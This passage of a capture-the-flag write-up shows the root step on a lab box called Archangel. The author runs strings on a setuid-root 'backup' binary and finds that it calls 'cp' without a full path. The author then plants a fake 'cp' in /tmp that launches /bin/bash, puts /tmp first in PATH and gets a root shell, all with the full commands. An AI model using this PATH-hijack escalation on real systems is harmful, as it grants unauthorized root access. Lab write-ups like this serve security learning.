 archangel@ubuntu:~/secret$ ls -la backup 
-rwsr-xr-x 1 root root 16904 Nov 18 16:40 backup`


I would like to know what this executable does, so I run strings against it. Here I find that it copies all files in the myfiles folder using cp.


`archangel@ubuntu:~/secret$ strings backup 
/lib64/ld-linux-x86-64.so.2
setuid        
system      
__cxa_finalize                           
setgid                                                                                        
__libc_start_main          
libc.so.6
GLIBC_2.2.5        
_ITM_deregisterTMCloneTable
__gmon_start__           
_ITM_registerTMCloneTable
u+UH                       
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles`



This does not use the full path for cp, which means it is vulnerable to a [Path Variable Privilege Escaltion](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/). By default on linux, most variables are under sbin or bin. However we can create our own path and variable for cp so when we execute this file, it will execute the CP located in our path.

To start, we must craft a file named cp. I did this under the `/tmp` directory

`archangel@ubuntu:/tmp$ echo "/bin/bash" > cp
archangel@ubuntu:/tmp$ chmod 777 cp`


Now, I need to change my PATH variable to /tmp


`archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH`


With my path changed, when I execute backup, it will look for the cp file under the tmp directory and execute it. Since root owns the file, root will excute it

`archangel@ubuntu:/tmp$ ~/secret/backup 
root@ubuntu:/tmp#`

As root, I can now read the final flag

(https://spy0x7.cf/assets/archangel/root.png)


Exit.py